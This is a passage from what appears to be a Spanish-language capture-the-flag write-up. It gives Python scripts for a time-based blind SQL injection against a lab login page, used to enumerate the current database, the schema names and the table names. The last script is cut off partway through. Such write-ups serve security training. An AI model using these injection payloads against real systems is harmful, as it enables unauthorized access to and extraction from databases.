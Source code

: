 ```python
#!/bin/python3
import requests, time, string
import urllib3; urllib3.disable_warnings()

caracteres = string.ascii_lowercase
login_url = "https://admin-portal.europacorp.htb/login.php"
headers = {'PHPSESSID': 'vfhb3ig3s0n01o9mp2arg735k0'}
print("Base de datos actual: ")
resultado = ""
for pos in range(20):
    for letra in caracteres:
        sqli = "' and if(substr(database()," + str(pos) + ",1)='" + letra + "',sleep(2),1)-- -"
        data = { "email": "admin@europacorp.htb" + sqli, "password":"test"}
        inicio = time.time()
        req = requests.post(login_url, data=data, headers = headers, verify=False)
        final = time.time()
        if final - inicio > 2:
            resultado += letra
            print(resultado)
            break
```
La base de datos actual es **admin**  
## Averiguar el nombre de otras bases de datos:  
```python
login_url = "https://admin-portal.europacorp.htb/login.php"
headers = {'PHPSESSID': 'vfhb3ig3s0n01o9mp2arg735k0'}
caracteres = string.ascii_lowercase + "_"
resultado = ""
for i in range(10):
	for pos in range(20):
		for letra in caracteres:
			sqli = "' and if(substr((select schema_name from information_schema.schemata limit " + str(i) + ",1)," + str(pos) + ",1)='" + letra + "',sleep(2),1)-- -"
			data = { "email": "admin@europacorp.htb" + sqli, "password":"test"}
			inicio = time.time()
			req = requests.post(login_url, data=data, headers = headers, verify=False)
			final = time.time()
			if final - inicio > 2:
				resultado += letra
				print(resultado)
				break
	resultado += ", "
```
Conseguimos las bases de datos **information_schema** y **admin**  

## Averiguar el nombre de las tablas de 'admin':  

```python
caracteres = string.ascii_lowercase + "_"
#caracteres = string.ascii_uppercase + string.ascii_lowercase + string.digits + string.punctuation
login_url = "https://admin-portal.europacorp.htb/login.php"
headers = {'PHPSESSID': 'vfhb3ig3s0n01o9mp2arg735k0'}
print("Nombre de tablas de 'admin': ")
print("-------------------------------")
resultado = ""
for i  in range(10):
	for pos in range(20):
		for letra in caracteres:
			sqli = "' and if(substr((select table_name from information_schema.tables where table_schema ='admin' limit " + str(i) + ",1)," + str(pos) + ",1)='" + letra + "',sleep(2),1)-- -"
			data = { "email": "admin@europacorp.htb" + sqli, "password":"test"}
			inicio = time.time()
```